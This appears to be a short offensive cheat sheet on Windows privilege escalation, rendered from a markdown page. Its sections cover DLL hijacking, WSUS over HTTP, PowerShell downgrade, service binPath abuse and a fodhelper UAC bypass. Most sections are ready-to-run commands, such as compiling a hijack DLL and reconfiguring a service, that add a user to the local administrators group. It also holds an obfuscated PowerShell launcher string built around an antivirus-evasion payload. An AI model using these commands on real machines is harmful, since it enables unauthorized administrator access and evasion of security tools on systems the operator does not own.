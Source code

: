 ## DLL hijacking!
```
# Find a dll to exploit
# Get the windows_dll.c
# Edit, replacing the system() call to:
cmd.exe /k net localgroup administrators user /add
#compile
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
# place the dll
sc stop dllsvc 
sc start dllsvc # Or start a service that use it.
```

## WSUS
If updates are run via http, not https:
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
# If you get:
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
	WUServer REG_SZ http:// # Some http server! 
# AND
HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer # == 1 
```
Use: [wsuxploit](https://github.com/pimps/wsuxploit) or [pywsus](https://github.com/GoSecure/pywsus)


## Powershell downgrade
```powershell
powershell -version 2
full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```

## binPath
```
accesschk64.exe -wuvc daclsvc # sysinternals - if user has SERVICE_CHANGE_CONFIG permission
sc config daclsvc binpath="net localgroup administrators [username] /add"
sc start daclsvc
net localgroup administrators
```

## UAC bypass
Check out [[Bypassing-Windows-User-Account-Control]] for more!
```powershell
# If Windows 10 build 1709, Microsoft's fodhelper.exe
# Admin user can silently bypass
# Settings -> Apps & features ->  Manage optional features
fodhelper.exe # by default runs on High Integrity 
# Sysinternals sigcheck to inspec manifest
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```
